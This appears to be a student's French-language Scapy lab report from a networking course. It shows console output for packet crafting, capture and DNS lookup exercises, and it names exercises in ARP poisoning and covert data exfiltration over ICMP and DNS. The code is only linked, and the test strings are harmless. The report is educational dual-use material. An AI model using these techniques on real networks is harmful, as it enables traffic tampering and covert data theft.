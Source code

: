 # I. Getting started Scapy

🌞 **`ping.py`**

[ping.py](./ping.py)

```
PS C:\Users\guill\TP-Reseau-B2\4> python3.12.exe .\ping.py
Begin emission:
Finished sending 1 packets.
.*
Received 2 packets, got 1 answers, remaining 0 packets
Pong reçu : QueryAnswer(query=<Ether  dst=c0:e4:34:a8:f2:d5 src=14:13:33:86:6a:1b type=IPv4 |<IP  frag=0 proto=icmp src=10.33.76.184 dst=10.33.74.56 |<ICMP  type=echo-request |>>>, answer=<Ether  dst=14:13:33:86:6a:1b src=c0:e4:34:a8:f2:d5 type=IPv4 |<IP  version=4 ihl=5 tos=0x0 len=28 id=4956 flags= frag=0 ttl=128 proto=icmp chksum=0x7c53 src=10.33.74.56 dst=10.33.76.184 |<ICMP  type=echo-reply code=0 chksum=0xffff id=0x0 seq=0x0 |<Padding  load='\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00' |>>>>)
```

🌞 **`tcp_cap.py`**

[TCP capture](./4/tcp_cap.py)

```
PS C:\Users\guill\TP-Reseau-B2> & C:/Users/guill/AppData/Local/Microsoft/WindowsApps/python3.12.exe c:/Users/guill/TP-Reseau-B2/4/tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src :13.89.179.9
- Adresse IP dst : 192.168.1.28
- Port TCP src : 443
- Port TCP dst : 51041
```



🌞 **`dns_cap.py`**

[dns_cap](./4/dns_cap.py)

```
PS C:\Users\guill\TP-Reseau-B2> python .\4\dns_cap.py      
DNS reçu : 172.67.74.226
```


🌞 **`dns_lookup.py`**

[DNS lookup](./4/dns_lookup.py)

```
PS C:\Users\guill\TP-Reseau-B2\4> python3.12.exe .\dns_lookup.py nathan.bonnell.fr
Begin emission:
Finished sending 1 packets.
....*
Received 5 packets, got 1 answers, remaining 0 packets
DNS reçu ! Adresse IP : 213.186.33.87
```

# II. ARP Poisoning

BON VOUS ALLEZ PAS Y COUPER SI VOUS L'AVEZ JAMAIS FAIT.

**P'tit détour rapide sur un ARP Poisoning simple.** Pas question de MITM ici, juste injecter une fausse donnée dans la table ARP de quelqu'un.

🌞 **`arp_poisoning.py`**

[ARP_poisoning](/4/arp_poisoning.py)


# II. Exfiltration ICMP


🌞 **`icmp_exf_send.py`**

[icmp_send](/4/icmp_exf_send.py)

```
PS C:\Users\guill\TP-Reseau-B2\4> python .\icmp_exf_send.py 10.33.67.166 toto
.
Sent 1 packets.
```

🌞 **`icmp_exf_receive.py`**


[icmp_receive](/4/icmp_exf_receive.py)

```
PS C:\Users\guill\TP-Reseau-B2\4> python .\icmp_exf_receive.py 
ICMP reçu ! MESSAGE : toto
```

# III. Exfiltration DNS

🌞 **`dns_exfiltration_send.py`**

[dns_exfiltration](/4/dns_exfiltration_send.py)

```
PS C:\Users\guill\TP-Reseau-B2\4> python .\dns_exfiltration_send.py 192.168.56.15 pouet!             
Envoi du paquet DNS...
.
Sent 1 packets.
Paquet envoyé !
```

⭐ **Bonus 3 mid : `dns_exfiltration_receive.py`**


[dns_receive](/4/dns_exfiltration_receive.py)

```
PS C:\Users\guill\TP-Reseau-B2\4> python .\dns_exfiltration_receive.py  
DNS reçu : quentin
DNS reçu : t
DNS reçu : moche
```